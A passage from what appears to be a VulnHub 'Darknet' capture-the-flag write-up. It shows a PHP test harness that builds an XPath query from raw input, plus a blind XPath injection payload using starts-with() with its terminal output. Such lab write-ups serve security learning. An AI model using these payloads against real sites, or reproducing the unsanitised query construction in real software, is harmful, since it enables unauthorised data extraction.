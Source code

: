I then wrote a small PHP script that would allow me to test payloads as if it were injected into the XML on the site I have with the bug. This script looked as follows:

```
<?php

// Get the argument from the cli
$id = $argv[1];
$xpath = '//Employee[@ID=' . $id . ']/UserName';

// Be a little verbose about what the query will look like
print 'Injection    : ' . $id . PHP_EOL;
print 'Xpath        : ' . $xpath . PHP_EOL;
$xml = simplexml_load_file('test.xml');
print PHP_EOL;

// Run the XPath
$result = $xml->xpath($xpath);

// Return a result of the XPath was valid etc.
print 'Blind:' . PHP_EOL;
@print_r((string)$result[0]);

print PHP_EOL . PHP_EOL;

// Show the raw result of the XPath not filtered
print 'Raw:' . PHP_EOL;
print_r($result);
```

I studied some XPath functions available on [devdocs.io](http://devdocs.io/xslt_xpath-xpath-functions/). This reference together with what I read online as well as my small test scenario helped me figure that I could make use of the [starts-with()](http://devdocs.io/xslt_xpath/xpath/functions/starts-with) XPath function to to test for true/false scenarios. This proved to work in my little test environment.

```
root@kali:~/data/VulnHub/Darknet# php readxml.php "1 and starts-with(name(*[1]),'F')=1"
Injection    : 1 and starts-with(name(*[1]),'F')=1
Xpath        : //Employee[@ID=1 and starts-with(name(*[1]),'F')=1]/UserName

Blind:
ABaker

Raw:
Array
(
    [0] => SimpleXMLElement Object
        (
            [0] => ABaker
        )

)
```
